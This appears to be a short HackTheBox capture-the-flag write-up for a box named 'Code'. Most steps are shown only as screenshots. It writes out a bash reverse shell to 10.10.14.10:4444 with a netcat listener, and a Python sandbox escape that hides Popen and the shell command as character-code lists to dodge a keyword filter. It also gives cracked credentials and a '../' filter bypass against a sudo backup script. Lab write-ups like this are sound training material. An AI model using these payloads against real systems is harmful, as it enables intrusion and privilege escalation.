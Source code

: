 Started: 5/8/25
Completed: 5/8/25


![nmap](nmap.png)



popen was blocked
![keywordblock](keywordblocked.png)



RevShells basic format: bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'

nc -lvnp 4444

`x = ().__class__.__bases__[0].__subclasses__()`
`e = [c for c in x if c.__name__ == ''.join([chr(i) for i in [80,111,112,101,110]])][0]`
`cmd = ''.join([chr(i) for i in [`
    `98,97,115,104,32,45,99,32,98,97,115,104,32,45,105,32,62,38,32,`
    `47,100,101,118,47,116,99,112,47,49,48,46,49,48,46,49,52,46,49,48,`
    `47,52,52,52,52,32,48,62,38,49`
`]])  # bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'`
`e(['/bin/bash', '-c', cmd], shell=False)`

RevShell/Foothold
![revshell](HackTheBox/Code/revshell.png)



![userflag](userflag.png)



database.db
![database](database.png)

crackstation
![crackstation](crackstation.png)

development:development
martin:nafeelswordsmaster




sudo -l
![sudo](sudo.png)

backy.sh
![backy](backy.png)


Getting Root

![task](task.png)

bypasses the filter since it removes ../ but will leave ../ for path traversal. Since it's running as sudo it will successfully grab the files

![exploit](exploit.png)

![loot](loot.png)

We grabbed the flag but we can also grab the ssh private key of root and log into the system as root if we wanted.


